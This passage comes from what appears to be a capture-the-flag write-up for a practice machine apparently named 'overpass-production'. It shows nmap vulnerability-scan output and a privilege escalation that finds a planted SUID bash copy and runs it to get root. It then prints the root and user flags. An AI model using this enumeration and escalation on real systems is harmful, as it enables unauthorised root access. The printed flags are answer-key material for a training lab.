|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDlwW5RS5iWPR+x1AVz4TAWAr/fSvF3KC16voiHSUImF8fNiWT4Pcb5KADkmhssq4amO2uyN+gF9KpEbXrVj63hKdkJrF4lQnzlxX8mHeeg9CLWA1/zI1BZ8TDmC9h45K3DwJjcD8zb56JPDi20PoIjVe3zUe3lf2geBxsAyhR5Cs4vWWUBzyocdkFDu+QXirPJv5lxcuiPhUVyDQZtHOK9evrXOOpeZiYgpqxcYTqHk5JcZbrV1sTNU8mkQiJXuVDQO+hOoOO7yES3reMv0pDXtc/Cfz5ZHJuAaGhU/fawIjUBlIeXY3wjUJe3UYgm1qE/idyq+9rU5TVApjxo+mjR
MAC Address: 02:52:8D:A2:1C:01 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
$ nmap -sV -T4 --script vuln --min-rate 8888 -vv -d -oN nmap-vuln.txt $rhost

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /downloads/: Potentially interesting folder
|_  /img/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
| http-iis-webdav-vuln: 
|_  ERROR: This web server is not supported.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
2222/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Debian 4 (protocol 2.0)
MAC Address: 02:52:8D:A2:1C:01 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Privilege escalation

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
...
-rwxr-sr-x 1 root shadow 34816 Feb 27  2019 /sbin/unix_chkpwd
-rwxr-sr-x 1 root shadow 34816 Feb 27  2019 /sbin/pam_extrausers_chkpwd
-rwsr-sr-x 1 root root 1113504 Jul 22  2020 /home/james/.suid_bash
james@overpass-production:/home/james/ssh-backdoor$ /home/james/.suid_bash -p
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)

.suid_bash-4.4# cat root/root.txt
thm{d53b2684f169360bb9606c333873144d}
.suid_bash-4.4# cat /home/james/user.txt
thm{d119b4fa8c497ddb0525f7ad200e6567}
```

> to follow, other details
## Relevant

## Internal